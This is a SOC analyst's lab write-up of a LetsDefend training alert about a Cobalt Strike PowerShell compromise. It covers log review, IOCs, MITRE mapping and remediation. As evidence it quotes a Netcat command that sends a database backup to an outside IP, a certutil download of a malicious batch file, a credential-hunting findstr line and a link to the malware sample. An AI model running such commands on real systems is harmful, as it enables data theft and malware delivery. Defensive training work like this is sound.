# LetsDefend SOC153 - Suspicious PowerShell Script Executed | Incidnent Responder

---

## Alert Details

| Field | Value |
|---|---|
| Event Time | Sep 05, 2021, 12:43 PM |
| Rule | SOC153 - Suspicious Powershell Script Executed |
| Hostname | Matt |
| IP Address | 172.31.34.35 |
| EDR Action | Allowed |
| CommandLine | `powershell.exe endpoint.ps1` |
| File Path | `C://Users//Public//Documents//endpoint.ps1` |
| Username | Administrator |

**L1 Note:** When the Tier 1 analyst tried to decode the PowerShell script on base64decode.org, the decoded output was identified as Cobalt Strike.

---

## Case Creation

So as usual, I created a case to begin the investigation.

**Malicious file link:**
```
https://download.cyberlearn.academy/download/download?url=https://files-ld.s3.us-east-2.amazonaws.com/b9a7a76320ebefc19ae65c56c45f311e.rar
```

---

## Phase 1 - Triage & Verification

Before connecting to the host to respond to the incident, I had to verify that the escalation was really caused by malicious activity. Not everything that gets escalated from Tier 1 is a true positive, so I always want to confirm that first.

From the alert details, the EDR action was **Allowed** when `endpoint.ps1` was executed via PowerShell with Administrator privileges. The L1 note flagged it as Cobalt Strike-related. Good starting point.

I opened the endpoint security dashboard and filtered for the affected host. Looking at terminal history just around the time the alert was triggered:

```
05.09.2021 12:31  cmd.exe  new1.bat
05.09.2021 12:55  nc.exe -w 3 3.16.42.144 4444 < user-db-backup.sql
```

At **12:31**, `new1.bat` was executed via `cmd.exe` - likely to automate malicious activities or prepare the system for the next stage of the attack. Then roughly **24 minutes later**, Netcat (`nc.exe`) was used to transmit `user-db-backup.sql` to the IP `3.16.42.144` over **TCP port 4444** using input redirection. That sequence alone - batch script followed by database exfiltration to a remote host - strongly suggests unauthorized data theft and was enough to confirm we're looking at a **True Positive**.



I took the IP and queried it against AbuseIPDB for malicious activity, but it came out clean. That said, the logs don't lie - let's keep going.

**Verdict: True Positive -> Malware**

---

## Phase 2 - Endpoint Investigation

### PowerShell Script Block Logging (Event ID 4104)

I connected to the machine and opened Event Viewer. Starting with PowerShell logs, I filtered for **Event ID 4104** - Script Block Logging - which shows the actual PowerShell code that was executed.



The first script block revealed that `powershell.exe` was launched with the `-nop`, `-w hidden`, and `-c` parameters - allowing it to execute a command without loading the user's profile while remaining completely hidden from view. The script creates an in-memory stream containing a large **Base64-encoded, GZip-compressed payload**, which is later decompressed and executed directly in memory using `Invoke-Expression (IEX)`. This fileless execution technique is commonly used by sophisticated malware, including Cobalt Strike, to evade detection by avoiding the creation of malicious files on disk.

I copied all 14 blobs with the intention of decoding them via CyberChef, but that didn't work. So I tried DeepSeek and Grok - both AI models confirmed the malicious nature of the script, and for that reason they wouldn't fully decode it either. You can see their responses below:




Based on what the models were able to describe, this is a **multi-stage PowerShell backdoor** that begins with a Base64-encoded, GZIP-compressed loader which, when executed, deploys a sophisticated remote access trojan (RAT). The main payload:

- Establishes persistence through scheduled tasks and registry modifications
- Profiles the compromised system - collecting computer info, running processes, installed software, network configurations, browser history, saved Wi-Fi credentials, and desktop screenshots
- Communicates with a remote C2 server over encrypted HTTPS, sending regular heartbeat beacons while awaiting instructions
- Can execute arbitrary PowerShell and system commands, perform file operations, modify the registry, and inject malicious code into running processes using techniques like reflective PE injection and Windows API calls
- Employs evasion tactics including VM detection, sandbox avoidance via sleep obfuscation, string obfuscation (XOR, Base64), and attempts to disable Windows Defender and AMSI

That log entry was timestamped **12:42 PM** - exactly **one minute before the alert was generated**.

---

### Process Creation Logs - Sysmon Event ID 1

Remember that `new1.bat` executed at **12:31** via `cmd.exe`. So I filtered the Sysmon logs with **Event ID 1** for process creation events around that time. This showed that the batch script launched `findstr.exe` to search for specific files on the target:

```
findstr /m jdate.com *
```

Breaking that down:
- `findstr` - searches files for text strings
- `/m` - prints only the filenames that contain the match
- `jdate.com` - the string being searched for
- `*` - searches every file in the current directory

So essentially, the attacker is looking for any file that contains the text `jdate.com` - and this was done for numerous other domains listed within the batch file. Classic credential hunting behaviour; attackers commonly search for saved passwords in text files that reference banking or financial sites.

At **12:43**, the logs show that `powershell_ise.exe` was launched by `Explorer.exe` to open `endpoint.ps1` from `C:\Users\Public\Documents\`. This tells us the script was likely opened through the GUI for inspection or editing before execution. The event alone doesn't confirm any changes were made - it just shows the file was loaded into PowerShell ISE. But it's a relevant precursor in the attack timeline.



At **12:50:09 UTC**, a PowerShell process executed `endpoint.ps1` from the same path using `-w hidden` and `-nop (-NoProfile)`. And it was spawned by **another PowerShell process** - a PowerShell-to-PowerShell execution chain. Given the earlier ISE activity opening `endpoint.ps1`, this event is clearly the execution phase after the script was prepared.



---

### Network Connection Logs - Sysmon Event ID 3

I then shifted focus to network connection logs. I was looking for:
- Outbound connections made by `powershell.exe`
- Destination IPs and ports
- Any beaconing behaviour

Key finding: at **12:50 PM**, PowerShell established an outbound **HTTPS connection on port 443** to **`87.121.52.216`**.

Because the connection originates from PowerShell - not a browser or trusted application - it's immediately suspicious. This is consistent with:
- Command-and-control (C2) communication
- Downloading a second-stage payload
- Data exfiltration
- Retrieval of a malicious script

Looking at the large PowerShell Script Block Logging event ("2 of 14"), this network event likely occurred while that PowerShell script was executing. The common attack sequence here is:

1. PowerShell launches
2. It decodes or reconstructs an obfuscated payload
3. It connects to `87.121.52.216:443`
4. It downloads or exchanges data with the remote server
5. The downloaded content executes in memory

I also observed **lots of connection attempts within seconds** - that's beaconing behaviour right there.

I queried the IP on AbuseIPDB - no prior reports, geolocated to **Bulgaria**.



**IOC - C2 IP:** `87.121.52.216`

**MITRE ATT&CK Mapping:**
| Technique ID | Description |
|---|---|
| T1059.001 | PowerShell |
| T1071.001 | Application Layer Protocol: Web Protocols (HTTPS) |
| T1573 | Encrypted Channel |
| T1105 | Ingress Tool Transfer |

---

### File Creation Logs - Sysmon Event ID 11

Now, how did `endpoint.ps1` and `new1.bat` get into the system? That's what pushed me toward looking at file creation logs - Sysmon Event ID 11.

| Time | File | Created By |
|---|---|---|
| 12:30 | `new1.bat` | `notepad.exe` |
| 12:32 | `Advanced_Port_Scanner_2.5.3869.exe` | `Chrome.exe` |
| 12:39 | `nc111nt.zip` | `Chrome.exe` |
| 12:43 | `endpoint.ps1` | - |

So `new1.bat` was written manually via Notepad. The port scanner and Netcat were pulled down through Chrome. And `endpoint.ps1` landed at 12:43 - right before execution.





---

### Remote Desktop Authentication Logs

I then looked at **Remote Desktop Services: User authentication succeeded** logs by filtering. This returned 4 events between 12:12 and 12:49 PM.

Three of the successful connections were:
- **User:** Administrator
- **Domain:** EC2AMAZ-ILGVOIN
- **Source Network Address:** `3.16.42.241`

But the event at **12:49 PM** was different:
- **User:** A
- **Domain:** *(blank)*
- **Source Network Address:** `94.232.41.158`



I looked up `94.232.41.158` on AbuseIPDB - **reported over 171 times for RDP brute-force attempts.**



---

### Windows Defender Logs (Event IDs 1116 & 1117)

Next I checked if Defender detected or ignored the script. I looked under `Microsoft-Windows-Windows Defender/Operational` and filtered for:
- **Event ID 1116** - Malware or suspicious files detected
- **Event ID 1117** - Action taken against malware or suspicious file

Here's what the Defender timeline showed:

- **~12:31** - `certutil.exe` was used with the command `certutil.exe -urlcache -split -f https://ctxt.io/AACgCefmEQ new1.bat` to download `new1.bat`. Defender flagged it as **Trojan:Win32/Ceprolad.A** (Severe). This is a living-off-the-land technique - abusing a legitimate Windows utility to pull down malicious content.

- **~12:45** - `powershell_ise.exe` opened `endpoint.ps1`. Defender detected it as **Trojan:Win32/Cobaltstrike!ml**.

- **~12:50** - `powershell.exe` executed `endpoint.ps1` with `-w hidden -nop`. Defender detected the activity through **AMSI** and identified it as Cobalt Strike-related malware. At the same time, `endpoint.txt` was also flagged as Cobalt Strike content when accessed by `notepad.exe`, suggesting it contained supporting payload information or commands.

- Additionally - `nc.exe` was detected as **HackTool:Win32/RemoteAdmin!MSR** - Netcat identified as a remote admin tool.

All detected files and activities were successfully quarantined or removed, and Defender reported that no further action was required.



---

### Netcat Execution - Back to Sysmon Event ID 1

Going back into the Sysmon logs, I observed a process create event at **12:55 PM** for the `nc.exe` file I came across earlier.



I submitted the associated hash to VirusTotal - **26/59 detections**, with over 90 contacted IPs identified. Of those, `192.168.0.50`, `217.20.54.34`, `23.198.171.50`, and `13.107.4.50` were flagged as malicious by security vendors.



At this point, I was almost done with the investigation - just trying to validate what the Tier 1 analyst had and fill in any remaining gaps.

---

## Phase 3 - Initial Access Analysis

It's been confirmed that harmful activity occurred on the device named **Matt**. But detecting the attacker's initial access is arguably the most important step - you need to find and close the open door before anything else.

The attacker could have established initial access through phishing or a service exposed to the internet. To figure out which, I first needed to determine what services were listening on this device.

According to Netstat output, the device had no services like Web, Email, or FTP open to the internet - only standard Windows OS services. However, **port 3389** was open. That's RDP.

As any system administrator knows, attackers constantly scan for ports 22 (SSH) and 3389 (RDP). Since RDP was open, checking the RDP log events was the right first move.

From the **Remote Desktop authentication logs** I reviewed earlier, combined with **Windows Security Event ID 4625** (failed logon), I can see multiple failed login attempts against the Administrator account (Logon Type 3 - Network Logon) from `3.16.42.241` before a successful authentication. The successful logins preceded all malicious activity on the system.

**Initial Access: Valid Accounts (T1078) obtained via RDP Brute Force (T1110)**

> **Where I got this wrong in the playbook:** I selected "Valid Accounts" for initial access, which is correct - but the platform expected the brute force mechanism to be the primary answer under the credential access tactic. The lesson here is to separate *how* the credentials were obtained (brute force) from *how* they were used to gain access (valid accounts / RDP).

---

## Phase 4 - Dynamic Analysis (ANY.RUN)

To nail down the malware classification, I submitted the file download URL to **ANY.RUN** for a public sandbox scan.



Here's a summary of what ANY.RUN found:

```
Analytical Classification
- Description: PowerShell-based execution chain with Cobalt Strike detection
- Tags: arch-scr, api-base64, susp-powershell, cobaltstrike
- Threat Level: Malicious Activity
- Main analyzed object: https://download.cyberlearn.academy/download/download?url=https://files-ld.s3.us-east-2.amazonaws.com/b9a7a76320ebefc19ae65c56c45f311e.rar

Attack Chain:
1. User navigates to the URL -> triggers download of a RAR file from an Amazon S3 bucket
2. WinRAR extracts the contents, including endpoint.ps1
3. PowerShell executes with bypassed execution policies and hidden banner
4. Second PowerShell process spawned with additional obfuscation, bypasses profile loading
5. Cobalt Strike detected via YARA rules
6. C2 endpoint identified: secdisks.com/safebrowsing/rd/CltOb12nLW1IbHehcmUtd2hUdmFzEBAY7-0KIOkUDC7h2

Conclusion:
The execution chain strongly suggests a Cobalt Strike-based attack aimed at establishing a
backdoor or C2 communication. The use of a legitimate Amazon S3 bucket as the initial 
delivery vehicle makes initial network filtering harder. The C2 endpoint at secdisks.com 
is a key suspicious host to monitor.
```

I also saved the Tier 1 report so you can view it yourself [here](files/any.run_report_powershell.pdf).




---

## Malware Classification

**Malware Type: Remote Access Trojan (RAT) - specifically Cobalt Strike**

Based on the Defender detections, YARA rule hits in ANY.RUN, and the observed C2 communication, here's why I classified this as a RAT:

- **Not ransomware** - no file encryption, no ransom demand
- **Not a keylogger** - no keystroke capture APIs observed
- **Not a web shell** - this is a client-side backdoor executed on the victim's desktop

What confirmed the RAT classification:
- Active C2 communication with `87.121.52.216:443` and `secdisks.com`
- System profiling (T1082) - processes, software, network config, browser history, screenshots
- Registry queries (T1012)
- Process injection capabilities (reflective PE injection)
- Remote command execution with persistent, interactive access

> **Where I got this wrong in the playbook:** I answered "RAT" which is the correct *category*, but I think the platform expected the specific answer of **"Cobalt Strike"** and hence `others` since the sandbox analysis explicitly identified it by name via YARA rules. 

---

## Phase 5 - Persistence, Privilege Escalation & Credential Access

### Persistence

Based on everything I have at this point:
- No Task Scheduler Operational events indicating a new task
- No `schtasks.exe` process creation
- No PowerShell commands creating a malicious scheduled task
- The only scheduled task-related script was the legitimate AWS EC2 Launch script

**Conclusion: No evidence that the attacker established persistence.** The malicious activity appears to have been an interactive execution of `endpoint.ps1`, which was subsequently detected and quarantined by Windows Defender before any persistence mechanism was put in place.

---

### Privilege Escalation

Based on the ANY.RUN sandbox analysis report, the MITRE ATT&CK mapping for this sample shows **zero techniques** under the Privilege Escalation tactic. Detected behaviours were limited to Execution (PowerShell, user execution), Defense Evasion (deobfuscation), and Discovery (registry queries, system information gathering).

The malware executed under the Administrator account which already had administrative privileges - no need for UAC bypass, token manipulation, or service abuse. Cobalt Strike can perform its core functions (C2 comms, system profiling, remote execution, data exfiltration) without requiring SYSTEM-level privileges.

**Conclusion: No privilege escalation observed.**

---

### Credential Access

The attacker obtained the Administrator password through **RDP Brute Force** - multiple failed logon attempts (Event ID 4625) from `3.16.42.241` followed by successful authentication (Event ID 4624) within a short window, all before the malicious activity began.

**Technique: Brute Force (T1110)**

> **Where I got this wrong in the playbook:** I still do not understand how though since I selected brute force under the credential access tactic. 

---

## Scope of Threat

| Area | Assessment |
|---|---|
| Attack origin | External |
| Credentials compromised | Yes - Administrator account brute-forced via RDP |
| Malware executed | Yes - Cobalt Strike payload ran and contacted C2 |
| Data exfiltrated | Yes - `user-db-backup.sql` sent to `3.16.42.144:4444` via Netcat |
| Persistence established | Not observed |
| Lateral movement potential | Yes - port scan with Advanced Port Scanner indicates intent |
| Brand/reputation risk | Potential - if the SQL backup contained sensitive customer data |

---

## Attack Timeline

| Time | Event |
|---|---|
| ~12:12 | RDP brute-force from `3.16.42.241` - successful login as Administrator |
| 12:30 | `new1.bat` written to disk via Notepad |
| 12:31 | `new1.bat` executed via `cmd.exe`; `findstr.exe` hunts for credential files across the filesystem |
| 12:31 | Defender detects `new1.bat` download via `certutil.exe` -> **Trojan:Win32/Ceprolad.A** |
| 12:32 | `Advanced_Port_Scanner_2.5.3869.exe` downloaded via Chrome |
| 12:39 | `nc111nt.zip` (Netcat) downloaded via Chrome |
| 12:43 | `endpoint.ps1` created; `powershell_ise.exe` opens it for inspection |
| 12:45 | Defender flags `endpoint.ps1` -> **Trojan:Win32/Cobaltstrike!ml** |
| 12:50 | `powershell.exe -w hidden -nop .\endpoint.ps1` executed |
| 12:50 | PowerShell beaconing to `87.121.52.216:443` begins |
| 12:50 | Defender detects via AMSI -> Cobalt Strike activity quarantined |
| 12:55 | `nc.exe` exfiltrates `user-db-backup.sql` to `3.16.42.144:4444` |
| 12:49 | Separate RDP connection from `94.232.41.158` (171+ AbuseIPDB reports) |

---

## Containment

I think at this point, the device has to be isolated pending forensic processes to make sure the malicious files are indeed cleaned. Even though Defender detected and quarantined the threats, the malware did execute and made successful C2 contact - so the host should be treated as **fully compromised** until a complete forensic investigation confirms containment and eradication.

I went back to the endpoint to contain it.



---

## Evidence Collection

In collecting evidence, this is what I'd do:

1. Running processes
2. Network connections
3. Netstat output
4. Open ports
5. Scheduled tasks
6. Security events
7. System events
8. Application events
9. Active sessions
10. PowerShell history
11. Defender detections
12. Defender preferences
13. Registry hives
14. Suspicious files (`endpoint.ps1`, `*.rar`, `*.exe`)
15. Event logs (`*.evtx` files)
16. Prefetch files
17. Recent documents

---

## Eradication

- Change the Administrator account password immediately
- If not required, remove Administrator from the Remote Desktop Users group
- Delete all attacker-dropped files (`new1.bat`, `endpoint.ps1`, `nc111nt.zip`, `Advanced_Port_Scanner_2.5.3869.exe`)
- Verify Defender quarantine is complete and no persistence artefacts remain

---

## Indicators of Compromise (IOCs)

| Type | Value |
|---|---|
| Attacker IP (RDP) | `3.16.42.241` |
| Attacker IP (RDP) | `94.232.41.158` |
| C2 IP | `87.121.52.216` |
| Exfil destination IP | `3.16.42.144` |
| C2 Domain | `secdisks.com` |
| File | `endpoint.ps1` |
| File | `new1.bat` |
| File | `nc111nt.zip` / `nc.exe` |
| File | `Advanced_Port_Scanner_2.5.3869.exe` |
| Defender Detection | `Trojan:Win32/Cobaltstrike!ml` |
| Defender Detection | `Trojan:Win32/Ceprolad.A` |
| Defender Detection | `HackTool:Win32/RemoteAdmin!MSR` |

---

## MITRE ATT&CK Summary

| Tactic | Technique | ID |
|---|---|---|
| Initial Access | External Remote Services (RDP) | T1133 |
| Initial Access | Valid Accounts | T1078 |
| Credential Access | Brute Force | T1110 |
| Execution | PowerShell | T1059.001 |
| Defense Evasion | Obfuscated Files or Information | T1027 |
| Defense Evasion | Indicator Removal on Host | T1070 |
| Discovery | System Information Discovery | T1082 |
| Discovery | Query Registry | T1012 |
| Collection | Screen Capture | T1113 |
| Command & Control | Encrypted Channel (HTTPS) | T1573 |
| Command & Control | Application Layer Protocol: Web | T1071.001 |
| Exfiltration | Exfiltration Over Alternative Protocol | T1048 |

---

## Cyber Kill Chain

| Phase | Observed Activity |
|---|---|
| Reconnaissance | Internal port scanning with Advanced Port Scanner |
| Delivery | RAR file delivered via RDP session |
| Exploitation | RDP brute force -> valid Administrator credentials obtained |
| Installation | Cobalt Strike (`endpoint.ps1`) deployed |
| Command & Control | Beaconing to `87.121.52.216:443` and `secdisks.com` |
| Actions on Objectives | `user-db-backup.sql` exfiltrated via Netcat to `3.16.42.144:4444` |

---

## Playbook Score

After completing the investigation, I had **6 right answers and 3 wrong answers.**



The three I got wrong:
- **Which technique was used in the credential access tactic?** - Should be **Brute Force (T1110)**, not what I selected
- **What is the initial access method used in the attack?** - Should specifically reference the RDP brute force entry path alongside Valid Accounts
- **What type of malware is used in the attack?** - Should be **Cobalt Strike** specifically, not just "RAT"

The takeaway from all three: when a sandbox or Defender gives you a specific tool name, use it. And separate the mechanism (brute force) from the technique it enables (valid accounts).

---

## Lessons Learned

- **RDP should not be exposed to the internet.** If it must be, implement IP allowlisting. Scanning for port 3389 is trivial for any attacker.
- **Generic or weak passwords on Administrator accounts are unacceptable.** This entire incident started with a brute-forced password.
- **Users who don't need RDP access should not be in the Remote Desktop Users group.** Principle of least privilege applies here.
- **`certutil.exe` abuse is a real living-off-the-land technique** that should be monitored via Sysmon or EDR rules - it's a legitimate Windows binary being weaponised.
- **AMSI and PowerShell Script Block Logging (Event ID 4104) are critical.** Without them, the early-stage activity would have been much harder to reconstruct. Make sure they're enabled across all endpoints.

---

## Conclusion

This incident represents a high-severity compromise involving the successful use of valid Administrator credentials - obtained through RDP brute force - execution of Cobalt Strike-related malware, and communication with an external command-and-control server. The attacker achieved elevated privileges and established remote access, posing significant risks to system integrity, confidentiality, and potential lateral movement within the environment.

The `user-db-backup.sql` file was exfiltrated via Netcat to an external IP, meaning sensitive data has likely left the environment. Although Microsoft Defender detected and quarantined the malicious files, the successful execution of the malware means the host should be considered **fully compromised** until a complete forensic investigation confirms containment and eradication.



**Final Classification: True Positive - Cobalt Strike RAT delivered via RDP Brute Force**

